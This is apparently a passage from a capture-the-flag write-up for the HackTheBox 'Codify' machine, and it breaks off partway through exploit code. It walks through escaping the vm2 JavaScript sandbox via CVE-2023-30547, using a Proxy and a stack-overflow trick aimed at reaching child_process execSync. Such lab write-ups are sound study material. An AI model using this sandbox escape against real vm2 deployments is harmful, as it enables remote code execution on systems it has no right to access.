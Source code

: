 
### Intial Foothold

Heading over to the http://codify.htb/about, I noticed the line (The vm2 library is a widely used and trusted tool for sandboxing JavaScript) and googled for the
vulnerability 

![vm2 Escape](vm2Escape.png)

Reading few blogs I found an awesome POC : [CVE-2023-30547 - Exploitation - Node.js vm2 module code execution RCE](https://vk9-sec.com/cve-2023-30547exploitation-node-js-vm2-module-code-execution-rce/)


Head over to http://codify.htb/editor, And run the following code to escape the sandbox.

```Js
//The vm2 library provides a secure JavaScript VM (virtual machine) for Node.js.
// The VM class allows you to create an isolated environment to run JavaScript code.
const {VM} = require("vm2");

//This line creates a new instance of the VM class.
//This instance will be used to run the JavaScript code in a sandboxed environment.
const vm = new VM();

// This code is a self-contained JavaScript snippet that is wrapped as a string.
// It creates an object (err), defines a Proxy (proxiedErr),
// and then uses a combination of throw and catch to execute a payload that invokes the execSync method from the child_process module.
// The payload seems to exploit the ability to manipulate the stack trace (Error().stack) and utilizes Proxy to trigger a sequence of code execution.
const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};

const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
```